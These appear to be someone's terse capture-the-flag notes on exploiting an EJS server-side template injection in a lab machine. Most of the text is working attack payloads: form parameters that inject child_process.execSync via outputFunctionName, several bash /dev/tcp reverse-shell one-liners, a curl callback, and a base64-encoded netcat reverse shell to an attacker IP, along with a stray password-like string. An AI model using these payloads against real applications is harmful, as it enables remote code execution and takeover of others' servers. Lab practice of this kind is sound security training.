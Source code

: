 **My IP:** 10.9.2.114
**Server IP:** 10.10.227.65

admin.cyprus found
![[Pasted image 20250129174218.png]]
p~]P@5!6;rs558:qv

![[Pasted image 20250129175441.png]]
password ommision in the change username reveals a ejs file
https://github.com/mde/ejs/issues/720

payload
https://eslam.io/posts/ejs-server-side-template-injection-rce/

bash -c 'bash -i >& /dev/tcp/10.10.227.65/4444 0>&1

`%%1");process.mainModule.require('child_process').execSync('bash -c 'bash -i >& /dev/tcp/10.10.227.65/4444 0>&1');//`

`name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.9.2.114');//`
![[Pasted image 20250129181426.png]]
![[Pasted image 20250129181432.png]]
hit

bash -i >& /dev/tcp/10.9.2.114/4444 0>&1

/bin/bash -i >& /dev/tcp/10.9.2.114/4444 0>&1

name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC45LjIuMTE0IDQ0NDQgLWUgc2g= | base64 -d | bash"');//

https://www.revshells.com/
needed to base 64 encode to get reverse shell working

![[Pasted image 20250129182335.png]]
